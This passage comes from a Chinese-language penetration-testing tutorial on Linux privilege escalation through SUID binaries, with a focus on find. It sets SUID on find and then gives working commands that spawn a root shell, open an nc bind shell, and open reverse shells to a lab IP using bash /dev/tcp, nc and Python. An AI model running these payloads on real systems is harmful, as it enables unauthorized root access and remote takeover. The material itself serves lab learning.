 ## 4.3. 各类提权命令

常见具有SUID权限的二进制可执行文件如下：

```bash
nmap vim find bash more less nano cp awk
```

这个可能存在一个疑问就是，为什么刚刚查找到的命令中并没有这些二进制可执行文件，是由于当登录的用户为root权限的时候，就会出现默认的所有命令都是以root权限去执行，但是在实际环境中，由于root权限过大，当管理员想要管理的时候，通常会将一些常见的搜索、文本编辑、下载安装等设置上SUID权限，让在普通用户权限下也能够以root权限去执行。

这里我们添加一下find设置为SUID权限，让普通用户也能够查找文件。

```bash
chmod u+s /usr/bin/find
ll /usr/bin | grep find
```

![image-20230331090409191](assets/RsuYeMvOJt1fg86.png)

## 4.4 find命令提权

实用程序find用来在系统中查找文件。同时，它也有执行命令的能力。 因此，如果配置为使用SUID权限运行，则可以通过find执行的命令都将以root身份去运行。

```shell
find 文件名 -exec 执行命令 \;

大部分Linux 系统都安装了nc。使用如下命令即可成功得到root shell：
find / -type f -exec /bin/bash \;
find . -exec /bin/sh \; -quit

采用广播shell
在靶机上：find user -exec nc -lvp 4444 -e '/bin/sh' \;
在攻击机上：nc 靶机ip 4444

find反弹shell
bash:
find /etc/passwd -exec bash -ip >& /dev/tcp/192.168.8.150/10086 0>&1 \;

nc:
find /var/www/dirty -exec nc 192.168.8.150 10086 -t -e /bin/sh \;

python:
find /etc/passwd -exec python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.8.150",10086));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-ip"]);' \;
```
